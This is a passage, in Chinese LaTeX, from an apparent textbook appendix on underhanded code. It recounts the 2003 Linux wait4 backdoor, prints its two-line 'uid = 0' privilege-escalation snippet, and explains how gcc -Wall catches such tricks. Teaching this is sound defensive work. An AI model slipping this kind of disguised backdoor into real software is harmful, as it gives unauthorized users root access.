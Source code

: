 \paragraph{2003 年的 Linux 后门。}
2003 年 11 月，有人偷偷修改了 Linux 内核源代码的一个副本，在 \texttt{wait4} 系统调用里加了两行：
\begin{verbatim}
if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
        retval = -EINVAL;
\end{verbatim}
看上去像是在检查“当前用户是不是超级用户”（\texttt{uid == 0}），其实是\emph{把}当前用户\emph{变成}超级用户（\texttt{uid = 0}）。任何一个普通程序，只要用两个特殊的参数调用 \texttt{wait4}，就能悄悄获得最高权限。作者还特意多加了一层括号，因为那样编译器就不会给出警告了。幸好，这次修改没有对应的审批记录，很快被发现了。至今没有人知道是谁干的。

\begin{figure}[htbp]
  \centering
  \caption{阴险的代码}
  \label{fig:underhanded}
\end{figure}

\section{怎样对付坏代码}

本附录的两个小把戏，有一个共同点：编译器其实能发现它们。我们的 Makefile 故意没有加 \texttt{-Wall}，加上以后，\texttt{gcc} 会这样说：
\inputminted[linenos=false, fontsize=\scriptsize]{text}{code/appc/out/wall.txt}

第一条说：这个 \texttt{if} 并不管它下面缩进的那几行，缩进是骗人的（misleading indentation）；第二条就是第~\ref{sec:logic}~节见过的那个警告。

